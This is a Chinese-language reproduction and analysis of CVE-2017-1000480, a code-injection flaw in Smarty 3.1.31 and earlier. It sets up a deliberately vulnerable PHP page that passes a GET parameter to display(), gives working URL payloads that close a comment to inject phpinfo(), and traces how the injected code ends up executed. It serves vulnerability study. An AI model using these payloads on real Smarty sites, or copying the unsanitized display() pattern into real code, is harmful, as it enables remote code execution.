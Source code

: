 ```yaml
---
title: （CVE-2017-1000480）Smarty<=3.1.31 命令执行RCE
id: zhfly3127
---
```


# （CVE-2017-1000480）Smarty<=3.1.31 命令执行RCE

## 一、漏洞简介

在不清理模板名称的自定义资源上调用fetch（）或display（）函数时，3.1.32之前的Smarty 3容易受到PHP代码注入的攻击。

## 二、漏洞影响

Smarty<=3.1.31、3.1.32-dev

## 三、复现过程

### 1、搭建环境

测试环境为： PHP5.6.40+Apache2+Smarty3.1.31+Debian9

```
➜  html mkdir smarty
➜  html cd smarty
➜  smarty mkdir cache compile templates
➜  smarty composer require smarty/smarty -v
➜  smarty sed -i -e 's/\^3.1/3.1.31/g' composer.json
➜  smarty composer update
➜  smarty sudo chmod -R 777 . 
```

/var/www/html/smarty/index.php 如下：

```
<?php
require './vendor/autoload.php';

class Smarty_Resource_Widget extends Smarty_Resource_Custom

{

protected function fetch($name, &$source, &$mtime)

{

$template = “Smarty <=3.1.31 RCE (CVE-2017-1000480)”;

$source = $template;

$mtime = time();

return ‘mochazz’;

}

}

$smarty = new Smarty();

$smarty->setCacheDir(‘cache’);

$smarty->setCompileDir(‘compile’);

$smarty->setTemplateDir(‘templates’);

$my_security_policy = new Smarty_Security($smarty);

$smarty->enableSecurity($my_security_policy);

$smarty->registerResource(‘username’, new Smarty_Resource_Widget());

$smarty->display(‘username:’.$_GET[‘mochazz’]); `?>` 
```

### 2、漏洞分析

具体攻击 payload 如下：

```
http://0-sec.org/index.php?mochazz=*/phpinfo();/* 
```

![image](../img/4602144b95b7b5c720ceff33f357a566.png)

我们直接从 display 方法开始跟进，会发现其最终会调用 render 方法。在 render 方法分别进行了：生成compile文件名、写入compile文件并包含两个操作。

![image](../img/8202c8c3f6af84a133bbbaecebe661e6.png)

在第一个操作：生成compile文件名时，我们传入 display 的参数会影响最终的 compile 文件名。例如下面两个 payload 生成的文件名是不一样的。

```
# 代码：$smarty->display('username:'.$_GET['mochazz']);

# payload1：[http://0.0.0.0/smarty/index.php?mochazz=](http://0.0.0.0/smarty/index.php?mochazz=)*/phpinfo();/*

4f97532c32c10229713a39421c918cf16663bf6e_0.username.*.php

# payload2：[http://0.0.0.0/smarty/index.php?mochazz=*/phpinfo();//](http://0.0.0.0/smarty/index.php?mochazz=*/phpinfo();//) `1e95a2d156a7edd4f6130643849a588dce4acb27_0.username.phpinfo();.php` 
```

这是因为 compile 文件名中，有一部分由 basename($source->name) 决定，这部分就是我们传入的 mochazz 参数。使用上面第一个 payload 时，文件名就会包含 * 号。在 Linux 系统下，文件名允许包含 * 号，但是 Windows 却不允许，这也是网络上部分文章说这个漏洞无法在 Windows 平台下利用。但是我们使用第二个 payload ，两个平台就都可以利用。

我们接着看第二个操作：写入 compile 文件并包含。首先，写入 compile 文件中的内容包含模板路径（即下图最后一行代码 $_template->source->filepath ），这个模板路径就是我们传入 display 方法的参数。虽然该参数被注释包裹，但是我们可以用 */ 闭合。写入 compile 文件，程序就开始包含该文件，最终导致代码执行（下图第137行）。

![image](../img/0520f0875fd38a1c8170ded9c65b4848.png)